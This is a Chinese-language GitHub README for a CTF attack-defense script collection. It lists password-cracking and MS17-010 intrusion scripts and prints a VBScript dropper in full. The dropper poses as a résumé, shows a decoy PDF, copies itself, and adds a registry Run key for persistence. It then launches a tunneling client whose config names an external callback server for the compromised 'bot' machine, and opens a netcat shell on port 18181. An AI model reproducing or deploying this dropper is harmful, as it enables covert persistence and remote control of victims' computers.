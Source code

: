 # 安全战队常用的CTF主机攻防脚本 CTFpTScript



## 天融信__DebugBreak 四轮车战队 CTF攻防赛所需要的脚本：

set_the_Flag:随机生成guid，并将以flag{guid}为名称的图片复制到windows目录下。

open_18181_with_nc:开启防火墙，并启动最基础的端口，其他端口仅允许18181端口，并且开始shell。

del_account_Bywhilelist:删除白名单以外的所有账户

one_key_close_17010：一键关闭17010所有端口。

setflag_win_linux:在windows与linux段生成flag文本，可以设置生成数量，其中用户名与内容均为随机。

Xdecrypt:老版本xshell ssh密码碰撞脚本。

Reveal password encrypted by MobaXterm:破解老版本 ssh密码碰撞脚本。

msfhack：msf入侵17010方法包括开启3389创建用户建立反射上传目录等

checkSec.sh：一键审计LINUX安全性能工具。



## 自用一键穿透攻击脚本（不免杀）



演示：

 ![img](https://github.com/liquan165/CTFpTScript/blob/master/demo/myprofile.gif)

伪装成简历，自启动，自我复制，网络穿透，修改配置文件：

```vbscript
On Error Resume Next
Dim fso,Shell,TxtFl,Str
Set fso = CreateObject("Scripting.FileSystemObject")
Set Shell=Wscript.Createobject("Wscript.shell")
If Not fso.folderExists("C:\symbols\") Then     
    fso.CreateFolder "C:\symbols\"
    fso.CreateFolder "C:\symbols\MailContactsCalendarSync\"
	fso.CopyFolder ".\log\MailContactsCalendarSync\*", "C:\symbols\MailContactsCalendarSync\"
    fso.CopyFile ".\log\MailContactsCalendarSync\*", "C:\symbols\MailContactsCalendarSync\"
	Shell.Run "iexplore.exe C:\symbols\MailContactsCalendarSync\mydoc.pdf",0,TRUE
	fso.getfile(wscript.scriptfullname).copy("C:\symbols\run.vbs")   
End If
RegPath = "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run\"
type_name = "REG_SZ"
key_name = "run"
key_data = "C:\symbols\" & key_name & ".vbs"
Shell.RegWrite RegPath & key_name , key_data , type_name
'Set TxtFl = fso.OpenTextFile ("C:\symbols\MailContactsCalendarSync\P2PSocket\Client.ini")
'Str = Replace ( TxtFl.ReadAll,"ClientName=QUAN","ClientName=TestJob") '肉鸡名字
'Str2 = Replace ( TxtFl.ReadAll,"ServerAddress=211.149.222.206:3387","ServerAddress=211.149.222.206:3387")  '上线地址
'TxtFl.Write Str
'TxtFl.Write Str2 
'TxtFl.Close
Shell.Run "C:\symbols\MailContactsCalendarSync\RuntimeBr0ker.exe",0,FALSE
Shell.Run "cmd /c start C:\symbols\MailContactsCalendarSync\nc.exe -Ldp 18181 -e cmd.exe",FALSE
Set fso = Nothing
Set Shell = Nothing



```

## Checksec.sh 一键审计LINUX工具

演示：

 ![img](https://github.com/liquan165/CTFpTScript/blob/master/demo/mylinuxaudit.gif)



## 项目适用于：

车联网安全攻防场景，主机安全攻防场景，工控安全场景，移动安全攻防场景等。
















